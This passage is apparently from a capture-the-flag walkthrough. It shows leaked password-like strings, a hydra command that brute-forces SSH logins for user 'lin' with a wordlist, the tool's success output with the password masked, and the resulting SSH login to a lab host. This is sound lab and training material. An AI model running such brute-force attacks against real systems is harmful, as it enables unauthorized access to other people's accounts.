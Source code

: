 ```
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

* tasks.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

#### Who wrote the task list?

```
lin
```

#### What service can you bruteforce with the text file found?

```
ssh
```

#### Brute-forcing ssh using locks.txt wordlist <a href="#bruteforce" id="bruteforce"></a>

```bash
hydra -l lin -P locks.txt ssh://$target
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-10 10:53:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.164.195:22/
[22][ssh] host: 10.10.164.195   login: lin   password: ******************
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-10 10:53:38
```

#### What is the users password?

```
******************
```

### Gaining Access <a href="#access" id="access"></a>

```bash
ssh lin@$target
lin@10.10.164.195's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jul 10 03:28:26 2022 from 10.8.90.96
```
